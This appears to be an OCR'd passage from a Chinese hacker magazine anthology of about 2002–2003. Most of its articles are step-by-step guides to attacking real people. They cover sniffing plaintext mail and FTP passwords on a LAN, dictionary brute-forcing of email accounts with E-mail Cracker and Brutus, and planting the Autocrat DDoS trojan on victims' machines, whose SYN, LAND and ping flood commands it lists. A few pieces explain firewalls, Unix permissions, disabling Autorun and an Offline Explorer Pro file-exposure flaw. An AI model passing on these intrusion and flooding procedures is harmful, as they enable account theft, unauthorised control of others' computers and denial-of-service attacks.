

这样你就可以登录他的信箱了，不过这里我多说两句废话，大家最好不要进入别人的信箱查看人家的信件，这可是不太道德的行为。

刺客 II 还有一个工具箱，这里集成了一些相关的网络工具，包括有 IP <-> 主机名转换器、Finger 客户查询工具、主机端口扫描工具以及主机连接器、域名查找器、Telnet 客户端程序等。在工具箱中还可以进行网络状态（Netstat）和查看自己的 IP 地址，算是集成了一些小黑客工具。不过总的说来，这些工具应急还可以，如果手头有一些其它好的工具的话，这些工具就显得逊色不少了。

刺客 II 的嗅探器是不得不提的，因为这是网络刺客 II 的力作，它甚至就是你需要在局域网中使用网络刺客的唯一原因。你只需要打开“嗅探器”菜单中的“开始监听”选项，当局域网中有人使用 POP3、FTP 和 Telnet 服务时，例如有人通过 E-Mail 客户端软件收发电子邮件，那么在程序的主窗口中，用户名、密码及时间、源地址、目标地址，所有这些都是以明文显示的，可以一览无遗。而对于网络中的 SMB 共享资源密码，则是以密文形式给出的，需要另行破解。不过破解需要花较长的时间，所以建议大家没有必要的话，就不要自找麻烦了。嗅探出来的结果可以保存备用，不过这一步功能现在还不支持 Windows NT 环境。

最后，网络刺客 II 虽然是一款强大的黑客工具，如果大家使用得当，也会成为一个很好的局域网管理工具。

# 可解防火墙

BLUE

何谓防火墙？防火墙是一个或一组在两个网络之间执行访问控制策略的系统，包括硬件和软件，目的是保护网络不被可疑的入侵打扰。本质上，它遵从的是一种允许或阻止业务来往的网络通信安全机制，也就是提供可控的过滤网络通信，只允许授权的通信。

当今市场上有两类主导性的防火墙：应用代理（application proxy）和包过滤网关（packet filtering gateway）。尽管“应用代理”被广泛地认定比“包过滤网关”安全，它们的限制特性和对性能的影响却使得它们的应用场合局限于从因特网上其他公司外来的分组流动，而不是从本公司向 Web 服务器外出的分组流动。相反，“包过滤网关”，或者更尖端的“有状态分组过滤网关”则能在许多具有高性能要求的较大机构中找到。

防火墙自诞生以来已保护无数的网络或计算机躲过了窥视的眼睛和邪恶的破坏者，然而它们还远远不是治理安全的灵丹妙药。市场上每个防火墙产品几乎每年都有安全脆弱点被发现。更糟糕的是，大多数防火墙往往配置不当且无人维护和监视，从而把它们转化成了电子门闩器（保持大门敞开着）。而黑客的责任就是攻克这些脆弱的或无人看管的防火墙，然后告诉它的主人：你的门烂了，还是再换个更好的吧！这次是个警告。如果下次进来的人没有良心，你就惨了。

防火墙的工作原理又是什么呢？防火墙常常就是一个具备包过滤功能的简陋路由器，支持 Internet 安全。这是使 Internet 连接更加安全的一种简单方法，因为包过滤是路由器的固有属性。

包是网络上信息流动的单位。网络上传输的文件一般在发出端被划分成一个一个的 IP 包，经过网络上的中间站，最终传到目的地，然后这些 IP 包中的数据又重新组成原来的文件。

每个 IP 包有两个部分：数据部分和包头。包头中含有源地址和目标地址等信息。这一部分的内容设有 TCP/IP 的 4 域。

IP 包的过滤一直是一种简单而有效的方法，它通过文件包头信息和管理员设定的规则表比较，读出并拒绝那些不符合标准的包，过滤掉不应入站的信息。

IP 包过滤规则一般基于部分的或全部的 IP 包信息，例如对于 TCP 包头信息为：

- 1. IP 协议类型
- 2. IP 源地址
- 3. IP 目标地址
- 4. IP 选择域的内容
- 5. TCP 源端口号
- 6. TCP 目标端口号
- 7. TCP ACK 标识，指出这个包是否是连接中的第一个包；是否是对另一个包的响应。

IP 包过滤的一个重要局限是它不能分辨好的和坏的用户，只能区分好的包和坏的包。包过滤只能工作在由黑白分明安全策略的网中，即内部是好的，外部是可疑的。对于 FTP 协议，IP 包过滤就不十分有效。FTP 允许连接外部服务器并使连接返回到客户端口 20，几乎离不开为绕过那些过滤器。

防火墙/应用网关（Application Gateways）还有一种常见的防火墙是应用代理防火墙（有时也称为应用网关）。这些防火墙的工作方式和过滤数据报的防火墙、以路由器为基础的防火墙的工作方式稍有不同。它是基于软件的。当某远程用户想和一个运行应用网关的网络建立联系时，此应用网关会阻塞这个远程连接，然后对连接请求的各个域进行检查。如果此连接请求符合预定的规则，网关便会在远程主机和内部主机之间建立一个“桥”。“桥”是指两种协议之间的转换器。例如，一个典型的网关一般不将 IP 数据报转发给内部网络，而是自己作为转换器和解释器进行转换过程，这种方式被称之为“man-in-the-middle configuration”。这种应用网关代理模型的长处是不进行 IP 报文转发，更为重要的是可以在“桥”上设置更多的控制，而且这种工具还能提供非常成熟的日志功能。然而所有的这些优点都是通过牺牲速度换取的，因为每次连接请求和所有发往内部网内的报文在网关上经历接受、分析、转换和再转发等几个过程，完成这些过程所需时间显然比完成以路由器为基础的数据报过滤的时间长得多。

IP 转发（IP forwarding）是指收到一个分组请求的服务器将此请求信息以 IP 报文的格式转发给内部网。让 IP 转发功能有效是一个严重的错误：如果你允许 IP 转发，那么入侵者便能从外部进入你的内部网络并访问其上的工作站。

透明性是代理服务器的主要优点。用户端代理服务给用户的假象是：用户是直接与真正的服务器连接，而在服务器端代理服务给用户的假象是：服务器是直接面对在代理服务器上的用户。要注意的是，代理服务器只有在需要严格控制内部与外部主机直接连接的时候才是一个比较有效的机制。而双宿主主机与包过滤也是具有这种特性的另外两种机制。如果内、外部主机能够直接相互通信，那么用户就没有必要使用代理服务。在这种情况下，代理服务也不可能起作用。而这种由旁路拓扑导致的网络信息安全问题是相矛盾的。

最常见的防火墙是按照基本概念工作的逻辑设备，用于在公共网上保护私人网络。配置一堵防火墙是很简单的，步骤如下：

- 1. 选择一台具有路由能力的 PC
- 2. 加上两块接口卡，例如以太网卡或串行卡等
- 3. 禁止 IP 转发
- 4. 打开一个网卡通向 Internet
- 5. 打开另一个网卡通向内部网

现在，两个不同的网络被这个防火墙分割开来。由于内部网不能再直接访问 Internet，所以访问网际空间就必须经过防火墙。欲进入内部网络，必须通过防火墙。

而且，若站点正处于防火墙保护之下，对它的访问也是被禁止的，用户不得不先登录防火墙后再进入 Internet，这时候就需要代理服务器了。因此，为了使防火墙有效，必须超越其概念设计。

防火墙的设计有好几种，但都可分为两类：网络级防火墙及应用级防火墙。它们采用不同方法提供相同的功能，都能适合站点防火墙的保护需要，而且现在有些防火墙产品具有双重性能。

## 网络级防火墙

这一类型的防火墙，通常使用简单的路由器，采用包过滤技术，检查个人的 IP 包并决定允许或不允许基于资源的服务、目的地址及 IP 端口。

最新式的防火墙较之以前更为复杂，它能监控通过防火墙的连接状态等等。这是一类快速且透明的防火墙，易于实现。

## 应用级防火墙

应用级防火墙通常是运行在防火墙上的软件部分。这一类的设备也称为应用网关。它是运行代理服务器软件的计算机。由于代理服务器在同一级上运行，所以它对采集访问信息并加以控制是非常有用的。因此，此类防火墙能提供关于出入站访问的详细信息，从而较之网络级防火墙安全性更强。

若打算将服务器安在内部网内，由于代理服务器将阻塞大多数连接，因此与服务器的连接受到很大限制。但这是一个高度安全的设计，适用于内部网上高水平的保护。

若站点上已实现了类似的防火墙，也许想将 Web 服务器置于防火墙之外（Web A），并且可能通过一个代理服务器在内部网与 Web 服务器之间建立连接。但这很可能使站点出现安全漏洞。

还有许多种类的防火墙，都有自己的特色：

- 电路级过滤器
- 双宿主机网关
- IP 过滤
- 堡垒主机
- 安全 IP 通道
- Circuit 网关

防火墙可以极大地增强 Web 站点的安全。根据不同的需要，防火墙在网络中配置有很多方式。根据防火墙和 Web 服务器所处的位置，可以分为三种配置：Web 服务器置于防火墙之内、Web 服务器置于防火墙之外和 Web 服务器置于防火墙之上。

将 Web 服务器装在防火墙内的好处是它得到了安全保护，不容易被黑客闯入，但不易被外界所用。当 Web 站点主要用于宣传企业形象时，显然这不是好的配置，这时应当将 Web 服务器放在防火墙外。

事实上，为保证组织内部网络的安全，将 Web 服务器完全置于防火墙之外反而比较合适。在这种模式中，Web 服务器不受保护，但内部网则处于保护之下，即使黑客进入了你的 Web 站点，内部网仍是安全的。代理支撑在此十分重要，特别是在这种配置中，防火墙对 Web 站点的保护几乎不起作用。

一些管理员试图在防火墙机器上运行 Web 服务器，以此增强 Web 站点的安全性。这种配置的缺点是，一旦服务器有毛病，整个系统会处于危险中。

这种基本配置有多种变化，包括利用代理服务器、双重防火墙和用成对的“入”“出”服务器提供对公众信息的访问及内部网络私人文件的访问。

有一些防火墙的结构不允许将 Web 服务器设在其外。在这种情况下将不得不打通防火墙，可以这样做：

- 1. 允许防火墙传递对端口 80 的请求，访问请求被限制到 Web 站点或从 Web 站点返回（假定你正使用“screened host”型防火墙）；
- 2. 可以在防火墙机器上安装代理服务器，但需一个“双宿主网关”类型的防火墙。来自 Web 服务器所有的访问请求在被代理服务器截获之后才传给服务器。对访问请求的回答直接返回给请求者。

现实世界中要想绕过配置得当的防火墙可能有难以置信的困难。然而使用诸如 traceroute、hping 和 nmap 之类信息汇集工具，可以发现（或者至少能够推断）经由目标网站的路由器和防火墙的访问通路，并确定所用防火墙的类型。当前发现的许多脆弱点的根源在于防火墙的误配置和缺乏管理性监视，然而这两种条件一旦被发现，所导致的后果可能是毁灭性的。

代理和包过滤这两种防火墙中都存在一些特定的脆弱点，包括未加认证的 Web 和 telnet 访问以及本地主机登录。对于其中大多数脆弱点，可采取相应的对策以应对它们的发现，然而有些脆弱点却只能监测是否有人在发掘它们而已。

许多人深信防火墙不可逆转的将来是应用代理和有状态分组包过滤技术的有机结合，这种结合提供了限制误配置的一些技巧。反应性特性也将成为下一代防火墙的部分内容；NAI 已在他们的 Active Security 体系结构上实现了某种形式的反应性特性。它允许一个被检测到的入侵活动引发受影响防火墙的预先设计好的变动。

举例来说，如果某个 IDS 系统检测到了 ICMP 隧道攻击，它就会指导防火墙关闭对进入 ICMP 回射请求分组的响应。这样的情形总是存在拒绝服务性攻击的机会，这也是需要知识丰富的所谓安全人员的原因。

最后，了解防火墙有助于我们了解网络，为我们纵横网络提供方便。

## Email Cracker 是如何破解 Email 口令的

Silverlizard



破解 Email 口令，有很多工具。但是我给大家介绍的这个软件，是我亲自汉化的，因为我发现它确实是一款非常小巧而又功能强大的软件，它就是 E-mail Cracker（在配套光盘中有提供）。

这一款软件的最大优点是：体积小，功能大！与“黑客字典”结合起来用，非常好！

好了，让我们先来打开这款软件吧！如图1所示：首先，在服务器地址处填入相应的 POP3 地址，如图2所示；然后选择相应的“用户字典文件”和“密码字典文件”，如果你是对单一目标进行攻击，就去掉“尝试用户名”前面的勾；如果是多目标，就打上此勾。最后，设置好线程数，就可以开始了！线程数是由你的网速和机器配置决定的，一般推荐 50。



剩下的就是等待！扫描结果会保存在名为：result.txt 的文件中，这个文件和 Email Crack 保存在同一个目录下！

最后，有一点必须提醒大家，有些病毒防火墙会报警此软件为“EmailCrack”黑客程序。请放心，这款软件绝对不是木马或是病毒，只是一款特别知名的黑客软件而已，所以病毒防火墙会报警，请放心使用！

## 如何设置 UNIX 中的读写执行权限

Sagi.

在 UNIX 中，所有的文件及目录都拥有自己的访问权限，以便限制用户的访问，提高系统的安全性。每个文件及目录都有三个级别的权限：所有者级别（u）、组访问级别（g）、其他用户访问级别（o）。每个级别都有三个权限：读（r）、写（w）、执行（x）。

```text
例如：

#ls -la
-rwxrwxrwx 1 root root 6789 Nov 1 09:01 abc.c
drwxr-xr-x 2 root root 51 Nov 1 10:20 tool
```

abc.c 为一个文件，第一个 rwx 表示文件所有者（即文件属主）的权限为读写执行。第二个 rwx 表示同组用户的权限为读写执行。第三个 rwx 表示其他组用户的权限为读写执行。

tool 为一个目录，第一个 rwx 表示目录所有者（即目录属主）的权限为读写执行。第二个 r-x 表示同组用户的权限为读执行。第三个 r-x 表示其他组用户的权限为读执行。

我们可以用“1”“0”来表示权限的设置与否。没有设置权限“---”，用“0”表示；设置了权限（不管是 r、w 或 x），用“1”表示。

| 权限说明 | 权限符号 | 二进制 | 八进制 |
|---|---|---|---|
| 没有权限 | --- | 000 | 0 |
| 执行权限 | --x | 001 | 1 |
| 写权限 | -w- | 010 | 2 |
| 写执行权限 | -wx | 011 | 3 |
| 读权限 | r-- | 100 | 4 |
| 读执行权限 | r-x | 101 | 5 |
| 读写权限 | rw- | 110 | 6 |
| 读写执行权限 | rwx | 111 | 7 |

下面便让我们看一看该如何设置权限。举例如下：

```text
#chmod u+rwx abc.c  设置 abc.c 文件属主的权限为 rwx
#chmod g+rwx abc.c  设置 abc.c 文件同组用户的权限为 rwx
#chmod o+rwx abc.c  设置其他组的用户对 abc.c 文件有读、写、执行权限。

这种设置等效于：
#chmod 777 abc.c

也等效于：
#chmod a+rwx abc.c  (a 表示所有用户)

让我们再看一个例子：
#chmod 755 lpsed

等效于：
#chmod u+rwx lpsed
#chmod g+r-x lpsed
#chmod o+r-x lpsed
```

表示所有的用户对文件 lpsed 都有读及执行权限。只有文件属主可以改变文件，即写权限。

## 黑客X档案2002-2003年合订本

## 菜鸟玩转 Autocrat DDoS

Autocrat（独裁者）DDoS 攻击器 v119.85 正式版是一款基于 TCP/IP 协议的 DDoS 分布式拒绝服务攻击工具，它适用于远程控制方式，让你轻松联合多台服务器进行 DDoS 攻击。它支持 4 种攻击方法：SYN、LAND、FakePing、狂怒之 Ping，危险程度高，慎用。程序分为 Client 和 Server，Server 在肉鸡上执行后会自动安装为 NT 服务程序并删除自身，以后将会采用 NT Service 方式在肉鸡上作为木马运行，可以 Telnet/HTTP 控制，方法：直接在 IE 输入 http://ip:8535 即可。Server 端自动检测系统环境，在 WIN 98/Me/2000/XP 都能安装，WIN 98/Me 下能发起狂怒之 Ping 攻击，WIN 2000、XP 下能使用所有功能。Client 修复了死循环的 BUG，增加了统计的功能，Server 修改了 HTTP 连接超时的 BUG。下面我们来看“独裁者”的具体操作。

解压后会得到 4 个“独裁者”的基本文件，如图 1 所示：


- Server.exe——服务端（警告：千万不要运行！）
- Client.exe——控制端（就用它操作）
- Mswinsck.ocx——控制端需要的网络接口
- Richtx32.ocx——控制端需要的文本框控件

- stop —— 停止
- helo ID. —— 状态检查
- syn [ip] [port] [ip] [port] —— SYN 攻击
- land [ip] [port] —— LAND 攻击
- fakeping [ip] [ip] —— FakePing 攻击
- angryping [ip] —— 狂怒之 Ping
- extract —— 释放文件

“独裁者”既然是基于远程控制的工具，当然不能直接用，而是像冰河一样，你必须用尽一切办法把 Server.exe 放到别人机器运行，只要 Server.exe 一个就够了。如果你不知道如何把 Server.exe 传到肉鸡上运行，可以看看 TFTP 教程和 IPC$。

运行 Server 后，程序会自动安装并重新启动，等你的肉鸡重新上来后，你就可以使用控制端连上去（肉鸡重新启动之后 Server.exe 文件会自动消失）。

启动控制端，如图 2 所示：


你可以用它的扫描功能扫，但目前这种方法无疑跟大海捞针。所以我们最好还是自己动手安装 Server。点击“添加”按钮，输入 IP 即可。如图 3 所示：


连上后别忘了检查 wsock32s、wsock32l、wsock32p 这三个 DLL 文件，它们是攻击的关键。用“检查文件”按钮查看文件状态，如果发现文件没了，你可就要注意了，可以用 extract 命令释放文件。如图 4 所示：


现在我们可以发动攻击了。

SYN 攻击：源 IP（随便你填），目标 IP 填你要攻击的 IP 或域名，源端口 0—65535 随便一个，目标端口：80——攻击 HTTP，21——攻击 FTP，23——攻击 Telnet，25/110——攻击 E-MAIL，8000——攻击腾讯 QQ 服务器……

LAND 攻击：填目标 IP 和目标端口即可（同 SYN）。

FakePing 攻击：源 IP 随便填，目标 IP 填你要攻击的 IP，按下来就会有大量 ICMP 数据包送他问好。

狂怒之 Ping 攻击：直接填目标 IP 即可，原理与 FakePing 差不多！

HTTP 控制，这个方法最简单，直接在 IE 里输入 http://ip:8535 就可以，直接用 Server 攻击，不用 Client 也可以玩。如图 5 所示：


# 关闭磁盘的自动运行功能（Autorun）

小智

前期向大家介绍了光盘自动运行文件 Autorun.inf 的利用，相信看过的朋友都会用了吧！那么这次就教大家如何关闭磁盘上运行 Autorun.inf 的这个功能。

因为大多数的硬盘根目录下并不需要 Autorun.inf 文件来运行程序，因此我们完全可以将硬盘的 Autorun 功能关闭。这样即使在硬盘根目录下有 Autorun.inf 这个文件，Windows 也不会去运行其中指定的程序了。下面我们将通过修改注册表中的 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer] 主键中 “NoDriveTypeAutoRun” 二进制值的参数来关闭磁盘上运行 Autorun.inf 的这个功能。具体方法为：

打开注册表编辑器，找到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer] 主键，在注册表编辑器右侧框中可以看到有二进制值 “NoDriveTypeAutoRun”，在 “NoDriveTypeAutoRun” 二进制值中有 4 个二进制的值，其中的第一个才有用，默认为 95（十六进制），其他三个目前保留，都为 0。如图 1 所示。


默认值为 95（十六进制），转为二进制就是 10010101，其中每位代表一个装置，1 表示不运行，0 表示运行，详细情况见下表：

| 代表装置 | 第几位 | 值（是或否） |
|---|---:|---:|
| DRIVE_UNKNOWN | 0 | 1 |
| DRIVE_NO_ROOT_DIR | 1 | 0 |
| DRIVE_REMOVABLE | 2 | 1 |
| DRIVE_FIXED | 3 | 0 |
| DRIVE_REMOTE | 4 | 1 |
| DRIVE_CDROM | 5 | 0 |
| DRIVE_RAMDISK | 6 | 0 |
| 保留 | 7 | 1 |

表 1

从上表中可以看出默认会自动运行的是 DRIVE_NO_ROOT_DIR、DRIVE_FIXED、DRIVE_CDROM、DRIVE_RAMDISK 这几个设备，所以要禁止所有的硬盘自动运行 Autorun.inf 文件，就必须将第三位（DRIVE_FIXED）设为 1，这样该项的值就成了 10011101，也就是十六进制的 9D。如图 2 所示。改完后关闭注册表编辑器，重启电脑后打开硬盘就不会再自动运行 Autorun.inf 文件了。


为了方便大家，我制作了两个 reg 文件，要关闭磁盘的自动运行功能就用 “GBAuto.reg”，想恢复就用 “DKAuto.reg”，收藏于附带光盘的“杂志相关”栏目中。

## Offline Explorer Pro 有漏洞

小军

你一直在用离线浏览器 Offline Explorer Pro 吗？如果你回答“是”，那么你危险了！一点都不夸张，至于说危险在哪里，且听我道来。

离线浏览器 Offline Explorer Pro 存在一个漏洞。这个漏洞在于当任何一个用户在使用 Offline Explorer Pro 的时候，软件默认将 800 端口打开并作为内部 HTTP 服务器的端口。这时候你的电脑就像是一台服务器，任何人都可以进入。这个漏洞在不上网的时候也可以验证，在 Offline Explorer Pro 的地址栏中输入如下命令：

```text
http://127.0.0.1:800/C:/WINDOWS/
```

就可以直接在 Offline Explorer Pro 浏览器中进入本地 Windows 目录，任意查看其中的文件。这个漏洞还有一个特点，就是只要 Offline Explorer Pro 打开，并且已经处于上网状态，即使什么东西都不下载，我们都可以通过对方的 IP 地址直接进入对方的电脑。这够不够恐怖？不够？我倒！

该漏洞适用版本：1.4.0.318 之前的版本。之后的版本虽然不能进入对方的目录，但可以看到使用人通过 Offline Explorer 下载了一些什么软件。自己喜欢下载或经常下载的软件类型别人都知道了，这也是一件令人很烦心的事！

该漏洞的补救方法：打开该软件，将“选项”中的“内部 HTTP 服务器”前面的勾去掉，或者选择仅供本地使用，如此则可大笑三声：吾无忧矣！

> 注意：不是所有的 800 端口都是有效的，有些网站的 WEB 服务就是通过 800 端口（一般是 80 端口），但如果我们扫描到有 800 端口开放的 IP，我可以肯定有 90% 是通过 Offline Explorer 开放的。我用代理猎手扫描到许多这样的机子。因此提醒那些使用 Offline Explorer Pro 软件的朋友赶快将这个漏洞堵住，当心有人进入你的电脑“跳舞”！

# 黑客免费上网技术大曝光

佐罗一XP

我们常常听到网上“XX 黑客”吹嘘自己怎样免费上网，让广大菜鸟们纷纷向往，在叹息自己水平不够的情况下，往往觉得他们实在深不可测。比较熟悉黑客技术的人往往嘲笑这些菜鸟们：“笨蛋，种个木马之类的程序不就行了，用他们的账号上网不就行了（请菜鸟们不要模仿，否则警察叔叔会来找的）。”这的确是一种免费上网的巧方法，不过这种方法损人不利己，给受害者造成了巨额话费的同时，还给自己铺好了进班房的大道。

难道还有别的方法吗？答案是肯定的。方法也很多，许多黑客都有自己独特的方法：如破解网吧管理、盗窃他人账号、更有水平高者入侵电信局……我们就不多说了，下面是一种比较安全的方法，不过以下方法仅作为技术探讨之用，请勿模仿，否则一切后果自负。

首先，给我们的技术环境做一下铺垫：两个能上网的电话、两台有猫（调制解调器）的电脑，同时这两台电脑装有 Windows XP 的操作系统（为什么用 XP 呢？原因很简单，黑客总要有超前的意识嘛！）（呆呆虫说：是不是该扔点鸡蛋什么的了吧？）好了，前期工作交代完毕。

为了让大家不至于混淆电脑，我们分别将两台电脑取名为“张三”、“李四”。首先，我们先在“张三”的电脑上做点手脚：双击“我的电脑”→“控制面板”→“网络和 Internet 连接”→“网络连接”→“创建一个新的连接”→“下一步”，如图 1 所示，第一步进行完成。

哈哈，怎么样？见到了吗？（如果没有，恭喜，再做一次）我们将 Administrator 前面的小方框选中，然后点击“属性”，你可以看到如图 3 对话框。


我们选择“回拨”选项卡，选择第二项“允许呼叫方设置回拨号码”，点“确定”，剩下的工作就是不停地点击“下一步”。好了，“张三”的电脑我们就摆平了。下面开始动我们自己的了，也就是“李四”的那台。

我们打开自己的电脑的“网络连接”，点击菜单中的“高级”选项，如图 4 所示。


点击后你会看见一个名为“拨号首选项”的对话框，选择“回拨”选项卡，选择第二项“当服务器提供回拨时在拨号期间询问我”。如图 5 所示。


我们接着来不停点击“下一步”，见到图 2 对话框时停住。


OK，“李四”的电脑（也就是我们所使用的电脑）设置完毕。下面我们开始最激动人心的战斗，同志们，抄家伙……（黑客怎么像黑社会啊，呵呵）。我们首先创建一个拨号连接，用用户名输入“张三”电脑的那个“Administrator”，密码当然是你设置“Administrator”同时设置的密码。拨号就填入“张三”的电话号码，如图 6 所示。

点击拨号，然后就是等待了……过一会就会出现一个提示框，输入“李四”的电话号码，几秒钟以后，“李四”的电话就会响起，紧接着，你就可以听见你的猫叫了起来，同时你也能看见任务栏多了一个上网指示灯，哈哈，我们大功告成了。怎样，有趣吧……这样不但你的上网费免了，连电话费都免了，此方法最适合有单位电话免费上网的朋友，你在家就可以不花钱上网冲浪了。

后记：其他操作系统的设置方法我没有试验，请有兴趣的朋友做一下测试，把成功的喜悦和大家一起分享，这才是黑客精神嘛。


图 6

## 如何有效破解免费邮箱 E-MAIL

在本文里我将分别讲解破解工具、字典及相关工具。

### 一、邮件破解工具 Brutus-aet2

安装好该软件后，可以看到其界面是 ENGLISH，不懂 E 文的朋友也不用担心，因为稍加解释就会用了。

运行程序之后，首先在 Target 的文本框输入要破解邮箱的 POP3 邮件服务器地址，然后在 Type 的下拉列表中选择 POP3，如图 1 所示。接下来，我想不用解释各位也会用了吧，在 USE FILE 里选择用户名文件，PASS FILE 里选择字典相关路径。

在 Connection options 里选择好破解的线程，请大家不要过于心切，因为如果线程选择过多的话，容易引起死机，那就得不偿失了，只好重头再来，所以大家要根据自己机器的情况来选择。如果可能的话，大家可以用 WINXP 的操作平台来进行，比较稳定不易死机。

好了，一切就绪后，按下 START，Brutus 就为你工作了，在右下角的 IDLE 框里会显示破解密码所需要的时间，结果会在 Positive Authentication Results 里显示。

## 二、字典工具

